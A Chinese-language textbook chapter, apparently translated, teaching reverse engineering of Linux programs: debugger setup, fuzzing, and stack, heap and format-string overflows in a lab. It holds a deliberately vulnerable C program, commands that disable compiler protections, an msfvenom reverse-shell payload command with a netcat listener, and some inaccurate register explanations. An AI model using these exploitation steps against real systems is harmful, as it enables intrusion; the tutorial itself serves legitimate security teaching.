








# 第十一章：逆向工程 Linux 应用程序

逆向工程，正如我们已经知道的，是获取可执行程序并获取其源代码或机器级代码的过程，以查看工具是如何构建的，并可能利用漏洞。逆向工程的上下文中的漏洞通常是开发人员和安全研究人员发现的软件错误。在本章中，我们将看看如何使用 Linux 应用程序进行逆向工程。本章将涵盖以下主题：

+   模糊化 Linux 应用程序

+   Linux 和汇编

+   Linux 和堆栈缓冲区溢出

+   Linux 和堆缓冲区溢出

+   在 Linux 中格式化字符串错误

# 调试器

了解可执行程序行为的常规方法是将其附加到调试器，并在各个位置设置断点，以解释测试软件的代码流。**调试器**是一个软件实用程序或计算机程序，程序员可以使用它来调试他们的程序或软件。它还允许程序员查看正在执行的代码的汇编。调试器能够显示代码执行的确切堆栈。调试器能够显示高级编程语言代码的汇编级等效。因此，调试器以执行堆栈的形式显示程序的执行流程，用于函数调用的寄存器，以及程序变量的地址/值等。

让我们来看看我们将在本章中涵盖的调试器：

+   Evans Linux 调试器：这是一个本地 Linux 调试器，我们不需要 wine 来运行它；它以`tar.gz`文件的形式提供。下载源代码，提取并复制到您的计算机。所需的安装步骤如下：

```py
$ sudo apt-get install cmake build-essential libboost-dev libqt5xmlpatterns5-dev qtbase5-dev qt5-default libqt5svg5-dev libgraphviz-dev libcapstone-dev
$ git clone --recursive https://github.com/eteran/edb-debugger.git
$ cd edb-debugger
$ mkdir build
$ cd build
$ cmake ..
$ make
$ ./edb
```

要么将其添加到环境变量路径中，要么转到安装目录并运行`./edb`来启动调试器。这将给我们以下界面：


让我们打开`edb exe/linux`文件：


+   GDB/GNU 调试器：这是一个非常古老的调试器，通常在 Ubuntu 中默认找到。它是一个不错的调试器，但功能不多。要运行它，只需输入`gdb`，它的提示符就会打开。默认情况下，它是一个 CLI 工具。


+   另一个好的工具是 idea-pro，但这是一个商业工具，不是免费的。

# 模糊化 Linux 应用程序

**模糊化**是一种用于发现应用程序中的错误的技术，当应用程序收到未经应用程序预期的输入时，应用程序会崩溃。模糊化通常涉及使用自动化工具或脚本发送大型字符串到可能导致应用程序崩溃的应用程序。模糊化的想法是发现漏洞或错误，如果发现，可能会导致灾难性后果。这些漏洞可能属于以下类别之一：

+   缓冲区溢出漏洞

+   字符串格式漏洞

模糊化是将随机生成的代码发送到我们的测试程序的技术，目的是使其崩溃或查看它在不同输入下的行为。模糊化是以自动化方式向正在测试的程序发送不同长度的有效负载，以查看程序是否在任何时候表现出奇怪或意外的行为。如果在模糊化期间观察到任何异常情况，则标记导致程序出现意外行为的有效负载长度。这有助于测试人员进一步评估是否存在溢出类型的潜在漏洞。简而言之，模糊化是检测正在测试的应用程序中是否存在潜在溢出漏洞的第一步。

有效的 fuzzer 生成半有效的输入，这些输入在解析器中不会被直接拒绝，但会在程序的更深层次上创建意外行为，并且足够无效，以暴露未正确处理的边缘情况。我们可以用于 fuzzing 的一个工具是**Zzuf**。这是一个非常好的 fuzzing 工具，可以在基于 Linux 的系统上使用。安装步骤如下：

从 GitHub 源下载 Zzuf 并手动安装它，使用以下命令：

```py
./configure
make sudo make install
```

然而，在这里，我们将专注于使用我们的本机 Python 代码进行 fuzzing。要了解如何进行 fuzzing，让我们以一个示例 C 代码为例，该代码从用户那里获取输入，但没有对传递的输入执行必要的检查。

# fuzzing 在行动

让我们来看一个用 C 编写的基本代码，它接受用户输入并在终端上显示它：

```py
#include <stdio.h>
#include <unistd.h>

int vuln() {

    char arr[400];
    int return_status;

    printf("What's your name?\n");
    return_status = read(0, arr, 400);

    printf("Hello %s", arr);

    return 0;
}

int main(int argc, char *argv[]) {
    vuln();
    return 0;
}
ssize_t read(int fildes, void *buf, size_t nbytes);
```

以下表格解释了前面代码块中使用的字段：

| 字段 | 描述 |
| --- | --- |
| `int fildes` | 要读取输入的文件描述符。您可以使用从 open ([`codewiki.wikidot.com/c:system-calls:open`](http://codewiki.wikidot.com/c:system-calls:open))系统调用获得的文件描述符，或者您可以使用 0、1 或 2，分别表示标准输入、标准输出或标准错误。 |
| `const void *buf` | 读取内容存储的字符数组。 |
| `size_t nbytes` | 截断数据之前要读取的字节数。如果要读取的数据小于*n*字节，则所有数据都保存在缓冲区中。 |
| `return value` | 返回读取的字节数。如果值为负数，则系统调用返回错误。 |

我们可以看到，这个简单的程序试图从控制台读取（由文件描述符的值 0 指定），并且无论它从控制台窗口读取什么，它都试图放在本地创建的名为`arr`的数组变量中。现在`arr`在这段代码中充当缓冲区，最大大小为 400。我们知道 C 中的字符数据类型可以保存 1 个字节，这意味着只要我们的输入<=400 个字符，代码应该可以正常工作，但如果输入超过 400 个字符，我们可能会遇到溢出或分段错误，因为我们会尝试保存的内容超过了缓冲区`arr`的容量。从前面的代码中可以立即看到，超过 400 字节的输入将破坏代码。

想象一下，我们无法访问应用程序的源代码。那么，为了弄清楚缓冲区的大小，我们有以下三个选项：

+   第一个选项是对其进行逆向工程，以查看应用程序的助记符或汇编级别代码。谁想这样做呢！

+   许多现代反编译器还为我们提供了原始应用程序的源代码等效物。对于我们这样的一个小例子，这将是一个不错的选择，但如果问题中的可执行文件有数千行代码，我们可能也要避免选择这个选项。

+   第三种通常首选的方法是将应用程序视为黑盒，并确定它期望用户指定输入的位置。这些将是我们的注入点，在这些点上，我们将指定不同长度的字符串，以查看程序是否崩溃，如果崩溃，会发生在哪里。

让我们编译我们的源代码以生成我们将作为黑盒运行和 fuzz 的 C 对象文件。

默认情况下，Linux 系统是安全的，并且它们配备了各种防止缓冲区溢出的保护措施。因此，在编译源代码时，我们将禁用内置的保护，如下所示：

```py
gcc -fno-stack-protector -z execstack -o buff buff.c
```

前面的命令将产生以下截图：


让我们运行我们的对象文件，通过将`echo`命令的输出传输到它来进行单行操作。这将使用 Python 和 fuzzing 自动化：


我们知道`./buff`是我们的输出文件，可以作为可执行文件执行。假设我们知道文件的实际源代码，我们可以使用 Python 来模糊文件。让我们创建一个基本的 Python 模糊脚本：


让我们运行前面的 Python 代码，看看模糊测试的效果以及它如何使应用程序崩溃，使我们接近崩溃点：



从前面的输出可以看出，应用程序崩溃的地方在 400 到 500 字节之间，这就是实际的崩溃点。更准确地说，我们可以使用较小的步长`i`，并以`步长=10`到达以下结果：


前面的屏幕截图为我们提供了更详细的信息，并告诉我们应用程序在输入长度为`411`和`421`之间崩溃。

# Linux 和汇编代码

在本节中，我们将学习有关汇编语言的知识。目标是将 C 代码转换为汇编代码，并查看执行过程。我们将加载和使用的示例 C 代码如下：



现在，让我们从命令行运行这个程序，作为`./buff`，并尝试将这个可执行程序附加到 Evans 调试器：


现在，我们通过 GUI 将我们运行的代码附加到启动的 Evans 调试器，方法是转到**文件** | **附加**选项。我们将可执行文件附加如下：



当我们点击**OK**时，对象文件将被附加到调试器，并且我们将能够看到与之关联的汇编级别代码，如下所示：


窗口的右上部分显示了被测试应用程序的汇编代码。左上部分表示寄存器及其相应的内容。汇编代码下方的部分显示了用户在控制台上输入数据时将调用的方法，即我们的读取系统调用。屏幕底部的部分表示内存转储，其中以十六进制和 ASCII 格式显示了内存的内容。让我们看看当我们指定一个小于 400 个字符的值时，应用程序是如何干净地退出的：



现在，让我们输入一个大于 400 字节的值，看看我们的寄存器会发生什么变化：


当我们传递这个输入时，我们会得到以下状态：



从前面的屏幕截图可以看出，我们传递的值被写入寄存器 RSP。对于 64 位架构，寄存器 RSP 保存下一条要执行的指令的地址，由于值从`arr`缓冲区溢出，一些值被写入寄存器 RSP。程序获取了 RSP 的内容以执行下一条指令，由于它到达了`aaaaaaaaaa`，程序崩溃了，因为这是一个无效的地址。应该注意的是，如前面的屏幕截图所示，`0X6161616161`是`aaaaaaaaaa`的十六进制等价物。

# Linux 中的堆栈缓冲区溢出

大多数漏洞是由开发人员没有考虑到的条件导致的。最常见的漏洞是堆栈缓冲区溢出。这意味着我们定义了某种不足以存储所需数据的缓冲区。当输入由最终用户控制时，这就成为了一个问题，因为这意味着它可以被利用。

在软件中，堆栈缓冲区溢出或堆栈缓冲区溢出发生在程序写入程序调用堆栈上的内存地址（正如我们所知，每个函数都有自己的执行堆栈或分配一个堆栈内存来执行）超出预期数据结构的范围时。这通常是一个固定长度的缓冲区。堆栈缓冲区溢出几乎总是导致堆栈上相邻数据的损坏，在溢出是由错误触发时，这通常会导致程序崩溃或操作不正确。

假设我们有一个可以容纳两个字节数据的内存单元`a`，并且在这个内存单元`a`旁边有另一个内存单元`b`，它也可以容纳两个字节的数据。假设这两个内存单元都放置在相邻的堆栈上。如果`a`给出超过两个字节的数据，数据将实际上溢出并被写入`b`，这是程序员所不期望的。缓冲区溢出利用了这个过程。

指令堆栈指针是指向下一条要执行的指令的地址的指针。因此，每当执行任何指令时，IP 的内容都会得到更新。当调用方法并创建该方法的激活记录时，执行以下步骤：

1.  创建激活记录或堆栈帧。

1.  **当前指令指针**（CIP）和**当前环境指针**（CEP）（来自调用者）被保存在堆栈帧上作为返回点。

1.  CEP 被分配为堆栈帧的地址。

1.  CIP 被分配为代码段中第一条指令的地址。

1.  执行从 CIP 中的地址继续。

当堆栈执行完毕并且没有更多的指令或命令可以执行时，执行以下步骤：

1.  CEP 和 CIP 的旧值从堆栈帧的返回点位置中检索出来。

1.  使用 CEP 的值，我们跳回到调用者函数。

1.  使用 CIP 的值，我们从最后一条指令中恢复处理。

默认情况下，堆栈如下所示：



现在可以看到返回地址位于堆栈底部，实际上包含了旧的 CEP 的值。我们称之为堆栈帧指针。在技术术语中，当缓冲区的值被覆盖并溢出时，它会完全填满与堆栈的本地变量空间相关的所有内存，然后被写入堆栈的返回地址部分，导致缓冲区溢出。当缓冲区上的所有内存空间被占用时，按照惯例，返回点的内容被提取以进行跳转回调用者。然而，由于地址被用户传递的数据覆盖，这导致了无效的内存位置，因此导致分段错误。

这就是有趣的地方。应该注意的是，用户传递的数据和堆栈的本地变量实际上是作为寄存器实现的，因此我们传递的值将存储在堆栈上的某些寄存器中。现在，由于用户传递的任何输入都被写入某些寄存器，最终被写入返回点，如果我们能够在位置`12345`的寄存器`X`中注入 shell 代码会怎么样？由于我们能够写入堆栈的返回点，如果我们在返回点写入`12345`会怎样？这将导致控制转移到位置`12345`，这将导致执行我们的 shell 代码。这就是缓冲区溢出如何被利用来授予我们受害者机器的 shell。现在我们对缓冲区溢出有了更好的理解，让我们在下一节中看看它的实际应用。

# 利用缓冲区溢出

接下来，让我们看一个容易受到缓冲区溢出攻击的代码片段。让我们看看如何模糊测试和利用这个漏洞来获取对系统的 shell 访问权限。我们在之前的部分学习了如何使用 Evans 调试器。在本节中，我们将看到如何使用`gdb`来利用缓冲区溢出。

下面是一个简单的 C 代码片段，询问用户的姓名。根据终端提供的值，它用问候消息“嘿<用户名>”来问候用户：


让我们使用以下命令编译应用程序，禁用堆栈保护：

```py
gcc -fno-stack-protector -z execstack -o bufferoverflow bufferoverflow.c 
```

这将创建一个名为`bufferoverflow`的目标文件，可以按以下方式运行：


现在我们的下一步是生成一个会导致应用程序崩溃的有效负载。我们可以使用 Python 来实现这一点：

```py
python -c "print 'A'*500" > aaa
```

上述命令将创建一个包含 500 个*A*的文本文件。让我们将其作为输入提供给我们的代码，看看是否会崩溃：


正如我们之前学到的，计算机通过*寄存器*来管理栈。寄存器充当内存中的专用位置，用于在处理数据时存储数据。大多数寄存器临时存储处理的值。在 64 位架构中，**寄存器堆栈指针**（**RSP**）和**寄存器基址指针**（**RBP**）尤为重要。

程序使用 RSP 寄存器来记住栈中的位置。RSP 寄存器将根据栈中添加或移除的任务而上下移动。RBP 寄存器用于记住栈的末尾位置。

通常，RSP 寄存器将指示程序从哪里继续执行。这包括跳入函数、跳出函数等。这就是为什么攻击者的目标是控制 RSP 指向程序执行的位置。

现在，让我们尝试使用`gdb`运行相同的代码，找到崩溃发生时 RSP 寄存器的值：


如图所示，我们只需发出`run`命令并将其传递给创建的输入文件，程序就会崩溃。让我们试着了解崩溃时所有寄存器的状态：


info registers 显示的两列告诉我们寄存器的地址，以十六进制和十进制格式显示。我们知道这里感兴趣的寄存器是 RSP，因为 RSP 将保存下一个要执行的指令的地址，由于它被损坏并被字符串 A 覆盖，导致了崩溃。让我们检查崩溃时 RSP 的内容。让我们还检查其他寄存器的内容，看看我们的输入字符串`aaaaa`写在了哪里。我们检查其他寄存器的原因是确定我们可以放置有效负载的寄存器：


从上面的截图中，我们可以验证输入字符串 aaaa，其十六进制等价物为`0x414141`，被放置在 RSP 中，导致崩溃。有趣的是，我们还看到该字符串被放置在寄存器`r9`和`r11`中，使它们成为我们利用代码的潜在候选者。但在那之前，我们需要找出我们的 500 个字符输入中的缓冲区 RSP 何时被覆盖。如果我们得到该偏移量的确切位置，我们将设计我们的有效负载以在该偏移量处放置跳转指令，并尝试跳转到寄存器`r9`或`r11`，在那里我们将放置我们的 shell 代码。为了找出确切的偏移量，我们将使用 Metasploit 的 Ruby 模块生成一组唯一的字符组合：


现在，由于我们将这个唯一生成的字符串放在一个名为`unique`的文件中，让我们重新运行应用程序，这次将`unique`文件内容传递给程序：


现在，在这一点上，寄存器 RSP 的内容是`0x6f41316f`，这是十六进制。ASCII 等价物是`o1Ao`。

由于寄存器 RSP 的内容是小端格式，我们实际上需要将`0x6f31416f`转换为其 ASCII 等价物。必须注意的是，IBM 的 370 大型机，大多数[RISC](https://search400.techtarget.com/definition/RISC)架构的计算机和 Motorola 微处理器使用大端方法。另一方面，英特尔[处理器](https://whatis.techtarget.com/definition/processor)（CPU）和 DEC Alphas 以及至少一些在它们上运行的程序是小端的。

我们将再次使用 Metasploit Ruby 模块来获取这个唯一值的偏移量，以找到我们有效负载的确切位置。之后，我们应该放置跳转指令，使 RSP 跳转到我们选择的位置：


因此，我们知道在地址`424`之后写入的下一个八个字节将被写入我们的`rsp`寄存器。让我们尝试写入`bbbb`，看看是否是这种情况。我们生成的有效负载将如下所示：`424*a + 4*b + 72*c`。要使用的确切命令是这个：

```py
python -c "print 'A'*424+ 'b'*4 + 'C'*72" > abc
```

现在，鉴于我们已经验证了我们可以控制寄存器 RSP，让我们尝试攻击 r9 寄存器，以容纳我们的 shell 代码。但在这样做之前，重要的是我们知道 r9 寄存器的位置。在下面的屏幕截图中，我们可以看到 r9 寄存器的内存位置是`0x7fffffffded0`，但每次程序重新加载时都会发生变化：


有两种方法可以解决这个问题。第一种方法是通过在操作系统级别禁用动态地址更改来避免它，可以在以下屏幕截图中看到。另一种方法是找到具有`jmp r9`命令的任何指令的地址**。**我们可以在程序的整个汇编代码中搜索`jmp r9`，然后将位置的地址放入我们的寄存器 RSP，从而避免动态地址更改。我将把这留给你自己去想出并做。在本节中，让我们通过执行以下操作来禁用动态地址加载：


现在，由于我们正在使用 Kali 机器，让我们生成一个将放置在我们最终的利用代码中的反向 shell 有效负载：

```py
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.250.147 LPORT=4444  -e x64/xor ‐b "\x00\x0a\x0d\x20" -f py
```

为了找出正在测试的底层软件的常见坏字符，最成功的方法是反复试验。我通常用来找出常见的坏字符的方法是将所有唯一字符发送到应用程序，然后使用调试器，检查寄存器级别发生了哪些字符变化。发生变化的字符可以被编码和避免。

上述命令将产生以下屏幕截图：


让我们创建一个名为`exp_buf.py`的 Python 文件，并将获取的 shell 代码放入该文件中。必须注意的是，由于我们正在对有效负载进行编码，我们还需要一些字节在开头进行解码，因此我们将在开头指定一些`nop`字符。我们还将在端口`4444`上设置一个 netcat 监听器，以查看我们是否从应用程序获得了反向 shell。记住 r9 寄存器的地址；我们也将使用它：


上述 Python 代码打印了我们需要的有效负载，以通过我们创建的易受攻击的缓冲区溢出代码获取反向 shell。让我们将这个有效负载输入到一个名为`buf_exp`的文件中，我们将在`edb`中使用它来利用代码。输入以下命令来运行代码：

```py
python exp_buf.py > exp_buf
```

现在让我们在端口 4444 上设置一个 netcat 监听器，它将监听反向载荷，这将反过来给我们 shell：

```py
nc -nlvp 4444 
```

现在，用`gdb`运行应用程序，并尝试利用它，如下所示：



哎呀！代码成功地生成了一个新的 shell 进程。让我们检查一下我们的 netcat 监听器得到了什么：


因此可以验证，我们成功地使用 Python 和`gdb`创建了一个反向 shell。

# Linux 中的堆缓冲区溢出

应该注意的是，导致堆栈缓冲区溢出的变量、缓冲区或存储的范围被限制在声明它的函数（局部变量）中，并且其范围在函数内。由于我们知道函数是在堆栈上执行的，这个缺陷导致了堆栈缓冲区溢出。

在堆缓冲区溢出的情况下，影响会更大一些，因为我们试图利用的变量不是存储在堆栈上，而是存储在堆上。在同一方法中声明的所有程序变量都在堆栈中分配内存。然而，在运行时动态分配内存的变量不能放在堆栈中，而是放在堆中。因此，当程序通过`malloc`或`calloc`调用为变量分配内存时，实际上是在堆上分配内存，而在堆缓冲区溢出的情况下，这些内存就会溢出或被利用。让我们看看这是如何工作的：


现在继续编译代码，禁用内置保护，如所示。请注意，`-fno-stack-protector`和`-z execstack`是用于禁用堆栈保护并使其可执行的命令。

```py
gcc -fno-stack-protector -z execstack heapBufferOverflow.c -o heapBufferOverflow
```

现在我们已经编译了应用程序，让我们用会导致代码执行的输入类型来运行它，如下所示：


前面的截图给出了堆缓冲区溢出的起点。我们将留给读者去发现如何进一步利用它并从中获得一个反向 shell。所采用的方法与我们先前使用的方法非常相似。

# 字符串格式漏洞

无控制的格式字符串利用可以用于使程序崩溃或执行有害代码。问题源于在执行格式化的某些 C 函数中，如`printf()`中，使用未经检查的用户输入作为字符串参数。恶意用户可以使用`%s`和`%x`等格式标记，从调用堆栈或可能是内存中的其他位置打印数据。我们还可以使用`%n`格式标记，在堆栈上存储的地址上写入格式化的字节数，这会命令`printf()`和类似函数将任意数据写入任意位置。

让我们尝试通过以下一段示例代码进一步理解这一点：


现在，继续编译代码，禁用内置保护，如所示：

```py
 gcc formatString.c -o formatString
```

请注意，print 函数将第一个参数作为格式字符串（`%s`、`%c`、`%d`等）。在前面的情况下，`argv[1]`可以用作格式字符串，并打印任何内存位置的内容。前面的代码是有漏洞的。然而，如果它是按照下面所示的方式编写的，那么漏洞就不会存在：



现在我们已经编译了应用程序，让我们用会导致代码执行的输入类型来运行它，如下所示：


让我们用格式字符串漏洞来破坏代码，如下所示：


前面的截图给出了一个起点；同样，我们将留给读者去探索如何进一步利用这一点。建议您尝试我们之前详细讨论过的相同方法。

# 总结

在本章中，我们讨论了 Linux 中的逆向工程。我们还学习了使用 Python 进行模糊测试。我们在 Linux 调试器（`edb`和`gdb`）的上下文中查看了汇编语言和助记符。我们详细讨论了堆栈缓冲区溢出，并了解了堆缓冲区溢出和字符串格式漏洞的概念。我强烈建议花费大量时间来研究这些想法，并在不同的操作系统版本和易受攻击的应用程序上进行探索。到本章结束时，您应该对 Linux 环境中的缓冲区溢出漏洞和逆向工程有一个相当好的理解。

在下一章中，我们将讨论 Windows 环境中的逆向工程和缓冲区溢出漏洞。我们将演示如何利用真实应用程序进行利用。

# 问题

1.  我们如何自动化利用缓冲区溢出漏洞的过程？

1.  我们可以采取什么措施来避免操作系统施加的高级保护，比如禁用堆栈上的代码执行？

1.  我们如何处理地址随机化？

# 进一步阅读

+   堆栈缓冲区溢出交火：[`www.doyler.net/security-not-included/crossfire-buffer-overflow-linux-exploit`](https://www.doyler.net/security-not-included/crossfire-buffer-overflow-linux-exploit)

+   堆栈缓冲区溢出交火：[`www.whitelist1.com/2016/11/stack-overflow-8-exploiting-crossfire.html`](https://www.whitelist1.com/2016/11/stack-overflow-8-exploiting-crossfire.html)

+   堆缓冲区溢出：[`www.win.tue.nl/~aeb/linux/hh/hh-11.html`](https://www.win.tue.nl/~aeb/linux/hh/hh-11.html)

+   字符串格式漏洞：[`null-byte.wonderhowto.com/how-to/security-oriented-c-tutorial-0x14-format-string-vulnerability-part-i-buffer-overflows-nasty-little-brother-0167254/`](https://null-byte.wonderhowto.com/how-to/security-oriented-c-tutorial-0x14-format-string-vulnerability-part-i-buffer-overflows-nasty-little-brother-0167254/)
